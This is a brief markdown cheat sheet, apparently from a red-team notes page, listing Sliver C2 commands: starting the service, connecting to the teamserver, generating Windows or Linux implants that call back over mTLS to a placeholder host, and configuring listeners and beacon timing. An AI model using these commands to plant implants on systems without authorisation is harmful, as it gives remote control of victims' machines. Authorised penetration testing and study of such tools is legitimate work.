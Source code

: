 - Start service:
	- `sudo service sliver start`
	- `sudo service sliver status`
- Connect to teamserver:
	- `sliver`
- Generate implants:
	- `generate --mtls <url/ip:port> --save <local path> --os <default windows> # ex: --os linux
	- `generate --os windows --arch 64bit --mtls <url/ip:port> --save <local path>`
- Listeners: 
	- `mtls -L <ip> -l <port>`
- Reconfigure Listeners: 
	- `reconfig -p 60 -r 600 -t 600`